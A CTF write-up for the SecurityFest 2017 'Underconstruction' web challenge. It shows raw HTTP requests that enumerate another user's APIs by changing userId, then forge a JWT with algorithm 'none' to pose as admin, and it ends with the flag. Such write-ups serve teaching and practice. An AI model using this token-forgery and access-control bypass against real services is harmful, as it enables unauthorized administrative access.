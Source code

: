 ```yaml
---
layout: post
title: "SecurityFest 2017 - Underconstruction"
date:   2017-06-01 21:05
categories: CTF
tags: [SecurityFest2017]
categories: [web]
author: jbz
---
```


Under Construction! Please protect your head, wear a hardhat.

Service: http://web.ctf.rocks:8080

Author: Kits / weckzen

In the HTML source of the index there is a comment saying that the backend allows you to connect by posting `{"username": "user", "password":"password"}` to `/login`.

```
POST /login HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 43

{"username": "user", "password":"password"}
```

In the response you get an `Athorization Bearer` token and the link `/apis` where you can list your available APIs.

*As Java errors are enabled and displayed you can manage to understand which parameters are missing while invoking APIs.*

We request our APIS:

```
GET /apis?userId=52 HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTExMn0.lRlvydjfWCMlavdcqvb6qth4Mp0zyFo3Zs50ngIZ1Jk
```

And we get:

```
{"urls":["/login","/apis"],"id":52,"user":"user"}
```
Then we request the admin's APIs:

```
GET /apis?userId=0 HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTExMn0.lRlvydjfWCMlavdcqvb6qth4Mp0zyFo3Zs50ngIZ1Jk
```

And we get:

```
{"urls":["/login","/apis","/supersecretflagresource"],"id":0,"user":"admin"}
```

Ok we have the flag endpoint, but if we try to GET it we receive a 403.

```
GET /supersecretflagresource HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTQ0OX0.O1BEqBvnt44Q6CIlWJK2hIzg8Ja9ycyOnIGc1Z-Zxzo
```

By analizing the token, we can see that is a JWT with HS256.

```
{
    "alg": "HS256"
}
{
    "user": "user",
    "exp": 1497099449
}
```

In some `JWT` libraries there is a vulnerability that allows to set `none` as algorithm and bypass the signature verification. This is the case.
You hust need to create a JWT token with `"alg":"none"` and `"user":"admin"` and perform the GET again.

```
GET /supersecretflagresource HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.
``` 
And the result is:

```
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```    
Finally you need to browse to `https://kits.se?kokitotsos` and execute the returned Javascript to get the flag.

**SCTF{lolKOKITOTSOS}**
